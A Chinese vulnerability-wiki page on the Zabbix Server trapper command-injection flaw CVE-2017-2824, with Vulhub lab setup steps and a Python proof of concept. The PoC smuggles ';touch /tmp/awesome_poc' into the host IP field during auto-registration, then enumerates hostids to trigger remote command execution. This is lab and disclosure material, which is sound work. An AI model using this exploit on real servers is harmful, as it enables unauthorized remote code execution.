




# Zabbix Server trapper命令注入漏洞 CVE-2017-2824

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：预先存在自动注册Add Host规则、10051可达及对应script1；文中管理员操作是实验配置
- 证据范围：IP直接shell拼接、注册与hostid枚举流程，服务端文件落地作为结果；与2020IPv6绕过应保留不同实体

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 未列影响/修复版本、环境目录；admin用户名大小写应按实例
- 非空且不含failed只指响应候选，不能独立断定RCE
- intro要求proxy但复现active agent registration路径不同须解释适用版本

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。其Server端 trapper command 功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```shell
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。访问`http://your-ip:8080/index.php`，使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：




第三个标签页，创建一个Operation，type是“Add Host”：




保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/awesome_poc"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

查看到如下结果时，则说明命令执行成功：




进入server容器，可见`/tmp/awesome_poc`已成功创建：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
